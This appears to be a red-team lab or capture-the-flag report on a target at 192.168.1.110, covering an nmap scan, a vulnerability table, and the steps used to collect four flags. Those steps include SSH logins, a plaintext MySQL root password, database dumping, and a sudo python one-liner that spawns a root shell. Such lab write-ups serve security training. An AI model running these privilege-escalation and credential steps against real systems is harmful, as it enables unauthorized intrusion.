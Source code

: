Red Team: Summary of Operations

Table of Contents

Exposed Services
Critical Vulnerabilities
Exploitation


### Exposed Services
TODO: Fill out the information below.
Nmap scan results for each machine reveal the below services and OS details:
- nmap -sV 192.168.1.110  

![](Images/Target%201%20Nmap%20Scan.png)

This scan identifies the services below as potential points of entry:

### Target 1

- SSH
- HTTP
- RPCBIND
- NETBIOS-SSN

The following vulnerabilities were identified on each target:

### Target 1

| Vulnerability        | Description                                                                                                                                                      | Impact                              | CVE or Standard |
|----------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------|-----------------|
| Port Scanning        | Use Nmap to detect open ports                                                                                                                                    | Show vulnerable ports and services. | Standard        |
| Enumerate WordPress  | Exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote  attackers to enumerate valid usernames. | Enumerate User Accounts             | CVE-2009-2335   |
| Weak Password        | Using easily guess passwords                                                                                                                                     | Gain access to the machine          | Standard        |
| Privilege Escalation | when running with Python 3.6 or later,  allows remote authenticated users to execute  arbitrary code, leading to privilege escalation.                           | Gain root access to the machine     | CVE-2020-29396  |



![](Images/Word%20Press%20Scan.png)

### Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

Target 1


flag1.txt: 

![](Images/Flag1%20Found.png)


Exploit Used

- Weak password
- ssh michael@192.168.1.110
- cd /var/www/
- grep -RE flag


flag2.txt: ![](Images/Flag2%20Found.png)


Exploit Used

- Weak password
- ssh michael@192.168.1.110
- cd /var/www/
- ls
- cat flag2.txt

flag3.txt: ![](Images/Flag3.png)

Exploit Used

- Weak password
- ssh michael@192.168.1.110
- mysql -u root -p
- R@v3nSecurity
- use wordpress;
- SELECT * FROM wp_posts;

flag4.txt: ![](Images/Flag4.png)

Exploit Used

- Privilege Escalation
- ssh steven@192.168.1.110
- sudo python -c 'import os;os.system("/bin/sh")'
- cd ../..
- cd root
- cat flag4
